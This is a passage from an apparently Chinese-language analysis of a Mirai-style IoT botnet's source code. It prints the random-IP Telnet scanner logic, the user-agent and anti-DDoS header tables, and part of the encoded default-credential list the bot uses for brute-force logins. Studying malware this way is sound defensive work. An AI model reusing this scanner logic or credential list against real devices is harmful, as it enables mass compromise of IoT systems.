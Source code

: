 ```c
#define TABLE_ATK_DOSARREST             45  // "server: dosarrest"
#define TABLE_ATK_CLOUDFLARE_NGINX      46  // "server: cloudflare-nginx"
/* User agent strings */
#define TABLE_HTTP_ONE                  47  /* "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36" */
#define TABLE_HTTP_TWO                  48  /* "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36" */
#define TABLE_HTTP_THREE                49  /* "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36" */
#define TABLE_HTTP_FOUR                 50  /* "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36" */
#define TABLE_HTTP_FIVE                 51  /* "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/601.7.7 (KHTML, like Gecko) Version/9.1.2 Safari/601.7.7" */
```

随便举了一段，注释里面就是解密之后的字符串。

## 扫描器模块

程序会 fork 出一个子进程来扫描。扫描过程发送的请求中，本机端口为随机端口，目标机端口为 23 和 2323，目标 IP 是随机选取的，选取的方法是，先生成一个随机 IP，如果发现这个 IP 是本地回环等没有攻击价值的 IP，就跳过继续生成下一个：

```c
do {
    tmp = rand_next();
    o1 = tmp & 0xff;
    o2 = (tmp >> 8) & 0xff;
    o3 = (tmp >> 16) & 0xff;
    o4 = (tmp >> 24) & 0xff;
}
while (o1 == 127 ||                             // 127.0.0.0/8      - Loopback
      (o1 == 0) ||                              // 0.0.0.0/8        - Invalid address space
      (o1 == 3) ||                              // 3.0.0.0/8        - General Electric Company
      (o1 == 15 || o1 == 16) ||                 // 15.0.0.0/7       - Hewlett-Packard Company
      (o1 == 56) ||                             // 56.0.0.0/8       - US Postal Service
      (o1 == 10) ||                             // 10.0.0.0/8       - Internal network
      (o1 == 192 && o2 == 168) ||               // 192.168.0.0/16   - Internal network
      (o1 == 172 && o2 >= 16 && o2 < 32) ||     // 172.16.0.0/14    - Internal network
      (o1 == 100 && o2 >= 64 && o2 < 127) ||    // 100.64.0.0/10    - IANA NAT reserved
      (o1 == 169 && o2 > 254) ||                // 169.254.0.0/16   - IANA NAT reserved
      (o1 == 198 && o2 >= 18 && o2 < 20) ||     // 198.18.0.0/15    - IANA Special use
      (o1 >= 224) ||                            // 224.*.*.*+       - Multicast
      (o1 == 6 || o1 == 7 || o1 == 11 || o1 == 21 || o1 == 22 || o1 == 26 || o1 == 28 || o1 == 29 || o1 == 30 || o1 == 33 || o1 == 55 || o1 == 214 || o1 == 215) // Department of Defense
);
```

连接成功后，尝试使用各种设备的默认账号和密码登录，程序内置了一份默认账户列表：

```c
// Set up passwords
add_auth_entry("\x50\x4D\x4D\x56", "\x5A\x41\x11\x17\x13\x13", 10);                     // root     xc3511
add_auth_entry("\x50\x4D\x4D\x56", "\x54\x4B\x58\x5A\x54", 9);                          // root     vizxv
// 此处省略若干行
add_auth_entry("\x56\x47\x41\x4A", "\x56\x47\x41\x4A", 1);                              // tech     tech
add_auth_entry("\x4F\x4D\x56\x4A\x47\x50", "\x44\x57\x41\x49\x47\x50", 1);              // mother   fucker
```

